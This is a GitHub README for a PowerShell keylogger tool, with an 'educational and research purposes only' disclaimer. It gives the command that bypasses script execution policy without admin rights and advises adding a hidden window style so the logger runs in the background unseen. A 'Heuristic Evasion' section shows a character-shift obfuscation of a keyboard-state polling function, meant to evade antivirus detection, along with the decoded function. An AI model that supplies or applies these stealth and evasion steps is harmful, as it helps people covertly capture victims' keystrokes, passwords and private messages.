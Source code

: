 # Powershell_Keylogger
THIS TOOL IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY

MALICIOUS USE OF THIS TOOL MAY CONSTITUTE A CRIME


![image](https://github.com/user-attachments/assets/512bdf4c-6e45-4d60-b867-6433ae9cd6b0)
[VirusTotal Report](https://www.virustotal.com/gui/file/5eea445524cc3ce4f703ff86436e4cd513c558e50feb887f2a0b26ca38eca845/detection)

# Running Tool

Often times windows powershell prevents running scripts due to execution policy, this can be avoided by using the following syntax

```
powershell.exe -ExecutionPolicy Bypass -File keylogger.ps1
```
This command does not require elevated permissions

To run this in the background append the `-windowstyle hidden` argument to the previous command

# Heuristic Evasion

```
$KeyStateFunction = ""
(109, 124, 117, 106, 123, 112, 118, 117, 39, 78, 108, 123, 82, 108, 128, 90, 123, 104, 123, 108, 39, 47, 43, 114, 108, 128, 51, 39, 43, 116, 104, 122, 114, 39, 68, 39, 55, 127, 62, 77, 77, 77, 48, 39, 130, 39, 121, 108, 123, 124, 121, 117, 39, 98, 105, 118, 118, 115, 100, 47, 47, 98, 87, 122, 86, 117, 108, 72, 119, 112, 53, 82, 108, 128, 105, 118, 104, 121, 107, 100, 65, 65, 78, 108, 123, 72, 122, 128, 117, 106, 82, 108, 128, 90, 123, 104, 123, 108, 47, 98, 105, 128, 123, 108, 100, 43, 114, 108, 128, 48, 48, 39, 52, 105, 104, 117, 107, 39, 43, 116, 104, 122, 114, 48, 39, 132) | ForEach-Object {
	$KeyStateFunction += [char]($_ - 7)
}
```

The full function is:

```
function GetKeyState ($key, $mask = 0x7FFF) { 
    return [bool](([PsOneApi.Keyboard]::GetAsyncKeyState([byte]$key)) -band $mask) 
}
```

